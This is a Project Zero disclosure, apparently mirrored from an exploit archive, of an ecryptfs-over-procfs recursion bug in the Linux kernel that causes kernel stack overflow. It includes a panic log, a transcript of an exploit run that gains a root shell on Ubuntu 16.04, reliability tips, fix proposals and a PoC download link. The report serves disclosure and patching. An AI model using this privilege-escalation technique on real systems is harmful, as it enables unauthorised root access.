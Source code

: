 Source: https://bugs.chromium.org/p/project-zero/issues/detail?id=836

Stacking filesystems, including ecryptfs, protect themselves against
deep nesting, which would lead to kernel stack overflow, by tracking
the recursion depth of filesystems. E.g. in ecryptfs, this is
implemented in ecryptfs_mount() as follows:

	s->s_stack_depth = path.dentry->d_sb->s_stack_depth + 1;

	rc = -EINVAL;
	if (s->s_stack_depth > FILESYSTEM_MAX_STACK_DEPTH) {
		pr_err("eCryptfs: maximum fs stacking depth exceeded\n");
		goto out_free;
	}


The files /proc/$pid/{mem,environ,cmdline}, when read, access the
userspace memory of the target process, involving, if necessary,
normal pagefault handling. If it was possible to mmap() them, an
attacker could create a chain of e.g. /proc/$pid/environ mappings
where process 1 has /proc/2/environ mapped into its environment area,
process 2 has /proc/3/environ mapped into its environment area and so
on. A read from /proc/1/environ would invoke the pagefault handler for
process 1, which would invoke the pagefault handler for process 2 and
so on. This would, again, lead to kernel stack overflow.


One interesting fact about ecryptfs is that, because of the encryption
involved, it doesn't just forward mmap to the lower file's mmap
operation. Instead, it has its own page cache, maintained using the
normal filemap helpers, and performs its cryptographic operations when
dirty pages need to be written out or when pages need to be faulted
in. Therefore, not just its read and write handlers, but also its mmap
handler only uses the lower filesystem's read and write methods.
This means that using ecryptfs, you can mmap [decrypted views of]
files that normally wouldn't be mappable.

Combining these things, it is possible to trigger recursion with
arbitrary depth where:

a reading userspace memory access in process A (from userland or from
    copy_from_user())
causes a pagefault in an ecryptfs mapping in process A, which
causes a read from /proc/{B}/environ, which
causes a pagefault in an ecryptfs mapping in process B, which
causes a read from /proc/{C}/environ, which
causes a pagefault in an ecryptfs mapping in process C, and so on.

On systems with the /sbin/mount.ecryptfs_private helper installed
(e.g. Ubuntu if the "encrypt my home directory" checkbox is ticked
during installation), this bug can be triggered by an unprivileged
user. The mount helper considers /proc/$pid, where $pid is the PID of
a process owned by the user, to be a valid mount source because the
directory is "owned" by the user.

I have attached both a generic crash PoC and a build-specific exploit
that can be used to gain root privileges from a normal user account on
Ubuntu 16.04 with kernel package linux-image-4.4.0-22-generic, version
4.4.0-22.40, uname "Linux user-VirtualBox 4.4.0-22-generic #40-Ubuntu
SMP Thu May 12 22:03:46 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux".

dmesg output of the crasher:

```
[   80.036069] BUG: unable to handle kernel paging request at fffffffe4b9145c0
[   80.040028] IP: [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028] PGD 1e0d067 PUD 0
[   80.040028] Thread overran stack, or stack corrupted
[   80.040028] Oops: 0000 [#1] SMP
[   80.040028] Modules linked in: vboxsf drbg ansi_cprng xts gf128mul dm_crypt snd_intel8x0 snd_ac97_codec ac97_bus snd_pcm snd_seq_midi snd_seq_midi_event snd_rawmidi vboxvideo snd_seq ttm snd_seq_device drm_kms_helper snd_timer joydev drm snd fb_sys_fops soundcore syscopyarea sysfillrect sysimgblt vboxguest input_leds i2c_piix4 8250_fintek mac_hid serio_raw parport_pc ppdev lp parport autofs4 hid_generic usbhid hid psmouse ahci libahci e1000 pata_acpi fjes video
[   80.040028] CPU: 0 PID: 2135 Comm: crasher Not tainted 4.4.0-22-generic #40-Ubuntu
[   80.040028] Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
[   80.040028] task: ffff880035443200 ti: ffff8800d933c000 task.ti: ffff8800d933c000
[   80.040028] RIP: 0010:[<ffffffff810c9a33>]  [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028] RSP: 0000:ffff88021fc03d70  EFLAGS: 00010046
[   80.040028] RAX: 000000000000dc68 RBX: ffff880035443260 RCX: ffffffffd933c068
[   80.040028] RDX: ffffffff81e50560 RSI: 000000000013877a RDI: ffff880035443200
[   80.040028] RBP: ffff88021fc03d70 R08: 0000000000000000 R09: 0000000000010000
[   80.040028] R10: 0000000000002d4e R11: 00000000000010ae R12: ffff8802137aa200
[   80.040028] R13: 000000000013877a R14: ffff880035443200 R15: ffff88021fc0ee68
[   80.040028] FS:  00007fbd9fadd700(0000) GS:ffff88021fc00000(0000) knlGS:0000000000000000
[   80.040028] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   80.040028] CR2: fffffffe4b9145c0 CR3: 0000000035415000 CR4: 00000000000006f0
[   80.040028] Stack:
[   80.040028]  ffff88021fc03db0 ffffffff810b4b83 0000000000016d00 ffff88021fc16d00
[   80.040028]  ffff880035443260 ffff8802137aa200 0000000000000000 ffff88021fc0ee68
[   80.040028]  ffff88021fc03e30 ffffffff810bb414 ffff88021fc03dd0 ffff880035443200
[   80.040028] Call Trace:
[   80.040028]  <IRQ>
[   80.040028]  [<ffffffff810b4b83>] update_curr+0xe3/0x160
[   80.040028]  [<ffffffff810bb414>] task_tick_fair+0x44/0x8e0
[   80.040028]  [<ffffffff810b1267>] ? sched_clock_local+0x17/0x80
[   80.040028]  [<ffffffff810b146f>] ? sched_clock_cpu+0x7f/0xa0
[   80.040028]  [<ffffffff810ad35c>] scheduler_tick+0x5c/0xd0
[   80.040028]  [<ffffffff810fe560>] ? tick_sched_handle.isra.14+0x60/0x60
[   80.040028]  [<ffffffff810ee961>] update_process_times+0x51/0x60
[   80.040028]  [<ffffffff810fe525>] tick_sched_handle.isra.14+0x25/0x60
[   80.040028]  [<ffffffff810fe59d>] tick_sched_timer+0x3d/0x70
[   80.040028]  [<ffffffff810ef282>] __hrtimer_run_queues+0x102/0x290
[   80.040028]  [<ffffffff810efa48>] hrtimer_interrupt+0xa8/0x1a0
[   80.040028]  [<ffffffff81052fa8>] local_apic_timer_interrupt+0x38/0x60
[   80.040028]  [<ffffffff81827d9d>] smp_apic_timer_interrupt+0x3d/0x50
[   80.040028]  [<ffffffff81826062>] apic_timer_interrupt+0x82/0x90
[   80.040028]  <EOI>
[   80.040028] Code: 0f 1f 84 00 00 00 00 00 66 66 66 66 90 48 8b 47 08 48 8b 97 78 07 00 00 55 48 63 48 10 48 8b 52 60 48 89 e5 48 8b 82 b8 00 00 00 <48> 03 04 cd 80 42 f3 81 48 01 30 48 8b 52 48 48 85 d2 75 e5 5d
[   80.040028] RIP  [<ffffffff810c9a33>] cpuacct_charge+0x23/0x40
[   80.040028]  RSP <ffff88021fc03d70>
[   80.040028] CR2: fffffffe4b9145c0
[   80.040028] fbcon_switch: detected unhandled fb_set_par error, error code -16
[   80.040028] fbcon_switch: detected unhandled fb_set_par error, error code -16
[   80.040028] ---[ end trace 616e3de50958c35b ]---
[   80.040028] Kernel panic - not syncing: Fatal exception in interrupt
[   80.040028] Shutting down cpus with NMI
[   80.040028] Kernel Offset: disabled
[   80.040028] ---[ end Kernel panic - not syncing: Fatal exception in interrupt
```

example run of the exploit, in a VM with 4 cores, with Ubuntu 16.04 installed:

```
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ls
compile.sh  exploit.c  hello.c  suidhelper.c
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ./compile.sh
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ls
compile.sh  exploit  exploit.c  hello  hello.c  suidhelper  suidhelper.c
user@user-VirtualBox:/media/sf_vm_shared/crypt_endless_recursion/exploit$ ./exploit
all spammers ready
recurser parent ready
spam over
fault chain set up, faulting now
writing stackframes
stackframes written
killing 2494
post-corruption code is alive!
children should be dead
coredump handler set. recurser exiting.
going to crash now
suid file detected, launching rootshell...
we have root privs now...
root@user-VirtualBox:/proc# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(vboxsf),1000(user)
```

(If the exploit crashes even with the right kernel version, try
restarting the machine. Also, ensure that no program like top/htop/...
is running that might try to read process command lines. Note that
the PoC and the exploit don't really clean up after themselves and
leave mountpoints behind that prevent them from re-running without
a reboot or manual unmounting.)

Note that Ubuntu compiled their kernel with
CONFIG_SCHED_STACK_END_CHECK turned on, making it harder than it used
to be in the past to not crash the kernel while exploiting this bug,
and an overwrite of addr_limit would be useless because at the
time the thread_info is overwritten, there are multiple instances of
kernel_read() on the stack. Still, the bug is exploitable by carefully
aligning the stack so that the vital components of thread_info are
preserved, stopping with an out-of-bounds stack pointer and
overwriting the thread stack using a normal write to an adjacent
allocation of the buddy allocator.

Regarding the fix, I think the following would be reasonable:

 - Explicitly forbid stacking anything on top of procfs by setting its
   s_stack_depth to a sufficiently large value. In my opinion, there
   is too much magic going on inside procfs to allow stacking things
   on top of it, and there isn't any good reason to do it. (For
   example, ecryptfs invokes open handlers from a kernel thread
   instead of normal user process context, so the access checks inside
   VFS open handlers are probably ineffective - and procfs relies
   heavily on those.)

 - Forbid opening files with f_op->mmap==NULL through ecryptfs. If the
   lower filesystem doesn't expect to be called in pagefault-handling
   context, it probably shouldn't be called in that context.

 - Create a dedicated kernel stack cache outside of the direct mapping
   of physical memory that has a guard page (or a multi-page gap) at
   the bottom of each stack, and move the struct thread_info to a
   different place (if nothing else works, the top of the stack, above
   the pt_regs).
   While e.g. race conditions are more common than stack overflows in
   the Linux kernel, the whole vulnerability class of stack overflows
   is easy to mitigate, and the kernel is sufficiently complicated for
   unbounded recursion to emerge in unexpected places - or perhaps
   even for someone to discover a way to create a stack with a bounded
   length that is still too high. Therefore, I believe that guard
   pages are a useful mitigation.
   Nearly everywhere, stack overflows are caught using guard pages
   nowadays; this includes Linux userland, but also {### TODO ###}
   and, on 64-bit systems, grsecurity (using GRKERNSEC_KSTACKOVERFLOW).

Oh, and by the way: The `BUG_ON(task_stack_end_corrupted(prev))`
in schedule_debug() ought to be a direct panic instead of an oops. At
the moment, when you hit it, you get a recursion between the scheduler
invocation in do_exit() and the BUG_ON in the scheduler, and the
kernel recurses down the stack until it hits something sufficiently
important to cause a panic.

I'm going to send (compile-tested) patches for my first two fix
suggestions and the recursive oops bug. I haven't written a patch for
the guard pages mitigation - I'm not familiar enough with the x86
subsystem for that.


Notes regarding the exploit:

It makes an invalid assumption that causes it to require at least around 6GB of RAM.

It has a trivially avoidable race that causes it to fail on single-core systems after overwriting the coredump handler; if this happens, it's still possible to manually trigger a coredump and execute the suid helper to get a root shell.

The page spraying is pretty primitive and racy; while it works reliably for me, there might be influencing factors that cause it to fail on other people's machines.


Proof of Concept:
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39992.zip